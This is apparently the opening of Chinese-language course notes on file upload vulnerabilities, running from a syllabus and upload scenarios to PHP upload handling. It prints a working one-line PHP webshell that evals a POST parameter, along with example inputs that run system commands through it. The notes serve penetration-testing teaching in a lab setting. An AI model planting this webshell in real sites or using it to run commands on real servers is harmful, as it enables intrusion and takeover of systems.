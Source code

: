 # 课程大纲

1. 文件上传漏洞原理 
2. Webshell介绍 
3. 网站控制工具 
4. 文件上传漏洞危害 
5. 文件上传漏洞靶场安装 
6. 文件上传漏洞靶场练习 
7. 文件上传漏洞发现与利用 
8. 文件上传漏洞防御

# 文件上传漏洞原理

## 文件上传场景 

- 上传头像 
- 上传代码 
- 上传图片 
- 上传简历 
- 上传附件



## PHP代码文件上传

`multipart/form-data` 

`move_uploaded_file`

## 一句话木马

```php
<?php @eval($_POST['wuya']);?>
```

*@：屏蔽警告，可有可无。*

*eval：把字符串作为PHP代码执行*

*$_POST：获得POST请求的参数值*



### system 执行系统命令

`wuya=system(ipconfig);` 

`wuya=system(dir);`

# Webshell介绍

### 一句话木马

